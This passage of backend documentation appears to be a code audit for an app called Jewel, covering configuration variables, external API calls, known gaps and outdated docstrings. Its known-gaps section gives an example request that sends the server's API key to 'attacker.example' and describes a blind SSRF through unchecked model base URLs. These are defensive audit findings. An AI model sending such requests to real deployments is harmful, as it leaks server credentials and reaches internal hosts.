| `JEWEL_FRONTEND_URL` | `config.py`, used in `api/app.py`, `routes/auth.py` | `http://localhost:5173` | The single CORS origin, and the redirect target after sign-in. |
| `SESSION_SECRET` | `config.py`, used in `auth/sessions.py` | `""` | HMAC key for session ids. Callback returns 503 without it; session routes return 500. |
| `DATABASE_URL` | `config.py`, used in `api/app.py`, `db/postgres.py`, `routes/documents.py` | `""` | Postgres. Without it the schema is not applied and DB routes return 503. |
| `NEO4J_URI` | `config.py`, used in `api/app.py`, `routes/documents.py` | `bolt://localhost:7687` | Neo4j. |
| `NEO4J_USER` | same | `neo4j` | Neo4j user. |
| `NEO4J_PASSWORD` | same | `""` | An empty value means no driver, so build, graph and ask return 503. |
| `JEWEL_UPLOAD_DIR` | `config.py`, used in `routes/documents.py` | `./data/uploads` | Upload directory. |
| `KIMI_API_KEY` | `os.environ` in `llm/choices.py:make_agent_chat`; also `llm/kimi.py` | none | Server fallback key for the answer model when `agent.api_key` is empty (see 7.1). |
| `OLLAMA_URL` | `os.environ` in `llm/ollama.py:OllamaChat.__init__` | `http://127.0.0.1:11434` | Ollama base URL. Only host and port are used, over plain HTTP. |
| `OLLAMA_MODEL` | `os.environ` in `llm/ollama.py:OllamaChat.__init__` | `qwen2.5:7b-instruct` | Only used when no model is passed. `make_chat` always passes one, so it has no effect on the API path. |
| `KIMI_BASE_URL`, `KIMI_MODEL` | `os.environ` in `llm/kimi.py:complete` | Moonshot URL, `kimi-k2.6` | `complete()` is never called, so these have no effect. |
| `JEWEL_TEST_DATABASE_URL`, `CI` | `tests/conftest.py` | none | Test database; in CI a missing URL fails instead of skipping. |

**Defined but unused:** `KEY_ENCRYPTION_SECRET`, `JEWEL_LLM_MODEL` and
`JEWEL_EMBEDDING_MODEL` are fields on `Settings` (and are passed in by
`infra/docker-compose.yml`), but no application code reads them. The same is true of
the `Settings.llm_base_url` property and the `LLM_BASE_URL` constant; only
`tests/test_scaffold.py` touches them. `OLLAMA_MODEL`, `KIMI_BASE_URL` and `KIMI_MODEL`
are read, but only on code paths that the routes never reach (see above).

## 6. External calls

All HTTP clients use the standard library (`urllib.request` or `http.client`). There is
no OpenAI SDK.

| Purpose | Client and call site | Endpoint | Settings |
|---|---|---|---|
| Local extraction | `llm/ollama.py:OllamaChat.complete`, from `extract_document` in `ingestion/live.py:_extract_passage` | `POST {OLLAMA_URL}/api/chat` | `stream=false`, `format="json"`, `options={"temperature": 0, "num_predict": 512}`, 300 s timeout, no retry. One passage at a time. |
| Stop local extraction | `OllamaChat.abort`, from `stop_build` | `POST {OLLAMA_URL}/api/generate` | `keep_alive: 0`, empty prompt, 5 s timeout, errors ignored. |
| API extraction | `llm/openai_chat.py:OpenAICompatibleChat.complete` (built by `make_chat` when `provider="api"`) | `POST {base_url}/chat/completions` | Bearer key from the request. No temperature. `kimi-k2.6*` adds `thinking: {type: disabled}` and `max_tokens: 1024`; `kimi-k3*` adds `reasoning_effort: "low"` and `max_tokens: 1024`. 120 s timeout, 3 attempts on `URLError` or timeout (1, 2, 3 s back-off), no retry on HTTP errors. 4 passages in parallel. |
| Answer agent | the same `OpenAICompatibleChat`, built by `make_agent_chat`, from `KimiDecider` | `POST {agent.base_url}/chat/completions` | As above. The key is from the request or `KIMI_API_KEY`. Up to 5 calls per question. Its error messages say "extraction" even here. |
| Local embeddings | `llm/embedders.py:LocalEmbedder` (fastembed `TextEmbedding`, created per request or build) | in-process ONNX | Vectors are L2-normalized. Passage and query prefixes for Nomic (`search_document: ` / `search_query: `) and E5 (`passage: ` / `query: `). |
| API embeddings | `llm/embedders.py:OpenAIEmbedder` | `POST {base_url}/embeddings` | `{model, input}`, 60 s timeout, no retry, results sorted by `index` and normalized. |
| Google | `auth/google.py:exchange_code`, `fetch_signing_key` | `oauth2.googleapis.com/token`, `www.googleapis.com/oauth2/v3/certs` | 10 s timeout for the token call; JWKS keys cached in-process. |
| Not called from any route | `retrieval/hippo/recognition.py:filter_triples`, `llm/kimi.py:complete`, `llm/bge.py:BgeEmbedder` | | Present in code, reached only by tests or not at all. |

The extraction prompt is `llm/ollama.py:_EXTRACT_SYSTEM`. It asks for JSON with
`entities` and `triples` (with `quote`), quotes "copied verbatim from the passage", and
at most 8 triples. API extraction uses the same prompt.

## 7. Known gaps

Each item was checked against the code at `a20db8c`.

1. **Server `KIMI_API_KEY` sent to a client-chosen host.**
   `llm/choices.py:make_agent_chat` uses `choice.api_key.strip() or os.environ["KIMI_API_KEY"]`
   but always takes `choice.base_url` from the request body. A signed-in user who sends
   `agent: {"api_key": "", "base_url": "https://attacker.example/v1"}` receives the
   server key in the `Authorization: Bearer` header (`llm/openai_chat.py:OpenAICompatibleChat.complete`).
2. **SSRF through model base URLs.** `make_chat`, `make_embedder` and
   `make_agent_chat` (`llm/choices.py`) accept any `base_url`, with no scheme, host or
   private-range check. The server then POSTs to it from `llm/openai_chat.py` and
   `llm/embedders.py:OpenAIEmbedder._embed`, from `/documents/{id}/build` and from
   `/ask`. The error text returns only the HTTP status code or "not reachable", not the
   response body, so this is mostly a blind SSRF. The Ollama URL is server config, not
   client input.
3. **In-process build thread and global lock.** `api/routes/documents.py:build` starts a
   `threading.Thread(daemon=True)`, and `_build_in_background` serializes every build
   behind the module-level `_BUILD_LOCK`. Cancel flags live in the in-memory `_CANCELS`.
   If the process restarts during a build, the row stays `extracting` with no thread
   behind it. `build` then refuses it with 409 "already being built". Only
   `POST /documents/{id}/stop` recovers it, by marking it `failed`. Queued builds also
   sit in `extracting` at 0/0 while they wait for the lock. There is a further race:
   if a user stops a build and rebuilds at once, the old thread's `finally` pops the new
   build's `_CANCELS` entry (same key), and its `BuildCancelled` handler can mark the new
   build `failed`/`stopped` while the new one is queued or running. Stop then cannot
   reach the new build. This race is inferred from reading the code; no test covers it.
4. **Schema applied at startup, no migrations.** `api/app.py:create_app.lifespan` calls
   `db/postgres.py:apply_schema`, which executes all of `schema.sql` on every start.
   Changes are limited to `IF NOT EXISTS` DDL: there is no version table and no
   down-migrations. If Postgres is unreachable at startup, the app does not start.
5. **DELETE can skip or split the Neo4j cleanup.** The claim that DELETE always skips
   Neo4j is not accurate: `api/routes/documents.py:delete` does call
   `Neo4jGraphStore.delete_document`. It skips it silently in two cases:
   - `app.state.neo4j` is `None`: `NEO4J_PASSWORD` is unset, or Neo4j was unreachable at
     startup, since the driver is never retried.
   - The path id is a non-canonical UUID. `_parse_id` accepts uppercase, braces or no
     hyphens for Postgres, but the raw string is passed to Neo4j, where `Document.id` is
     the canonical lowercase form, so no node matches.

   If Neo4j raises during the call, the Postgres row and the file are already gone and
   the client gets a 500. A build still running for that document can write its graph
   after the delete. The module docstring still says the route does not touch Neo4j.
6. **No `extraction_cache` cleanup.** Nothing in `backend/src` deletes from
   `extraction_cache`: there is only a SELECT and an INSERT in
   `ingestion/extraction_cache.py`. The table has no user or document column and no
   foreign key, so rows (raw model output, including verbatim quotes) stay after the
   document or user is deleted. The test `TRUNCATE` in `tests/conftest.py` leaves it out
   as well.
7. **Exact-substring quote check.** `kg/extraction.py:_repair_triple` drops a triple
   when `quote not in source_text` (line 145), and `parse_extraction` repeats
   `triple.quote in source_text` (line 63). Only `.strip()` is applied: there is no
   whitespace, case, quote-mark or hyphenation normalization. `source_text` is the
   3,500-character passage, not the whole document. A model that re-flows a PDF line
   break or changes a curly quote loses that triple. When the quote is empty, the
   fallback `_sentence_containing` needs the subject or object to appear verbatim in a
   sentence.

Also seen while reading, but not asked about:

- `Neo4jGraphStore.write_document` runs each statement as its own auto-commit
  transaction, so a failure halfway leaves a partial graph for that document.
- `/ask` and `/graph` load the user's entire graph, including every document's full
  text and all embeddings, on each request (`Neo4jGraphStore.load_user`).
- When `SESSION_SECRET` is empty, `get_session_user` raises `SessionConfigError` and
  session routes return 500 instead of 401.

## 8. Where code comments and older docs disagree with the code

[docs/system-design.md, section 6](system-design.md#6-where-the-older-docs-differ-from-the-code)
already lists the main differences between the older docs and the code. These are the
ones found in code comments and backend files:

| Location | Says | Code does |
|---|---|---|
| `api/app.py` module docstring | `/documents/{id}/build`, `/graph` and `/ask` are not mounted; DELETE removes "the row and the file" | All are mounted (13 routes); DELETE also removes Neo4j data when a driver exists. |
| `api/routes/documents.py` module docstring | DELETE "does not touch Neo4j"; build "is not implemented here" | Both are implemented in this file. |
| `agents/__init__.py`, `agents/graph.py` docstrings | "LangGraph runtime" / the contract `create_agent` will host | A plain Python loop; LangGraph is not a dependency. |
| `llm/base.py`, `llm/__init__.py`, `config.py` docstrings | One OpenAI-compatible client at `https://api.x.ai/v1`, user's decrypted key, no network calls yet | xAI is never called. Ollama, any OpenAI-compatible host and fastembed are used, with keys from the request or `KIMI_API_KEY`. |
| `ingestion/__init__.py`, `kg/extraction.py` docstrings | Extraction is local Qwen only | `provider="api"` sends passages to any OpenAI-compatible host. |
| `retrieval/hippo/__init__.py` docstring | Step 1 links the question to `:Entity` embeddings; step 4 recognition filter "one model call" | Linking ranks triple embeddings; entity embeddings are stored but not used in retrieval. The recognition filter is not called from `/ask`. |
| `kg/schema.py` docstring | Document has times and status; MENTIONS/RELATED_TO have offsets; RELATED_TO has `invalid_at` | None of those are written (see 4.2). |
| `llm/openai_chat.py` docstring | "for triple extraction" | Also used for the answer agent. |
| `pyproject.toml` comment | `neo4j` is "declared only (not imported yet)" | Imported in `api/app.py`, `api/routes/documents.py` and `kg/neo4j_store.py`. |
| `backend/README.md` | Only `/health` is mounted; LangGraph agent; xAI client; "tests (no network, no databases)" | See this page. The database tests need `JEWEL_TEST_DATABASE_URL`. |
| `docs/system-design.md` 5.2 item 9 | Graph data is left behind silently "if Neo4j is unavailable at that moment" | It is silent only when the driver was never created at startup, or for a non-canonical id. A Neo4j error at delete time is a 500 (see 7.5). |
